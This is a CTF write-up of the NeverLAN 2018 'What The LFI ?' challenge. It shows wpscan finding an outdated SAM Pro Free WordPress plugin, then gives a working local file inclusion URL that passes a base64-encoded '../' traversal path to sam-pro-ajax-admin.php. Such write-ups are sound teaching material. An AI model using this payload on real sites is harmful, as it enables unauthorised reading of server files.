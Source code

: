```yaml
---
layout: post
title: NeverLAN CTF 2018 - What The LFI ?
image: "/assets/img/2018/neverlanctf2018/whatthelfi/1.png"
categories: [general, neverlanctf2018]
tags: [neverlanctf2018, writeup]
twitter_text: "Write-up for What The LFI ?"
introduction: "Write-up for What The LFI ?"
description: "Write-up for What The LFI ?"
---
```



![](/assets/img/2018/neverlanctf2018/whatthelfi/1.png)

![](/assets/img/2018/neverlanctf2018/whatthelfi/2.png)

So the website is a wordpress and we are searching for a LFI. First thing I search for links where the LFI could be :

[http://54.201.224.15:14099/?p=1](http://54.201.224.15:14099/?p=1)

[http://54.201.224.15:14099/?cat=1](http://54.201.224.15:14099/?cat=1)

[http://54.201.224.15:14099/?s=test](http://54.201.224.15:14099/?s=test)

And I try basic LFI like this :

[http://54.201.224.15:14099/?p=/var/www/blah.php](http://54.201.224.15:14099/?p=/var/www/blah.php)

[http://54.201.224.15:14099/?p=http://google.fr](http://54.201.224.15:14099/?p=http://google.fr)

We are just redirect, on the index page. Our LFI might not be here, let’s try a wpscan since it’s a wordpress. Command :

```
wpscan 54.201.224.15:14099
```

Result :

![](/assets/img/2018/neverlanctf2018/whatthelfi/3.png)

Interesting there is a plugin not up to date, and there is the LFI.

The scan gives us the location and some reference. Let’s check the reference. We have a Proof of Concept in this one :

[Link](https://www.pluginvulnerabilities.com/2016/10/28/local-file-inclusion-lfi-vulnerability-in-sam-pro-free-edition/)

We can see that the link “wap” is base64, so let’s base64 our path :

```
/var/www/blah.php → L3Zhci93d3cvYmxhaC5waHAK
```

[http://54.201.224.15:14099/wp-content/plugins/sam-pro-free/](http://54.201.224.15:14099/wp-content/plugins/sam-pro-free/)

Url :

[http://54.201.224.15:14099/wp-content/plugins/sam-pro-free/sam-pro-ajax-admin.php?action=NA&wap=L3Zhci93d3cvYmxhaC5waHAK](http://54.201.224.15:14099/wp-content/plugins/sam-pro-free/sam-pro-ajax-admin.php?action=NA&wap=L3Zhci93d3cvYmxhaC5waHAK)

Result :

![](/assets/img/2018/neverlanctf2018/whatthelfi/4.png)

It’s not working because we are in the wrong directory, let’s change it by :

```
../../../../blah.php → Li4vLi4vLi4vLi4vYmxhaC5waHA=
```

Final url :

[http://54.201.224.15:14099/wp-content/plugins/sam-pro-free/sam-pro-ajax-admin.php?action=NA&wap=Li4vLi4vLi4vLi4vYmxhaC5waHA=](http://54.201.224.15:14099/wp-content/plugins/sam-pro-free/sam-pro-ajax-admin.php?action=NA&wap=Li4vLi4vLi4vLi4vYmxhaC5waHA=)

> The flag : ```flag{dont_include_files_derived_from_user_input_kthx_bai}```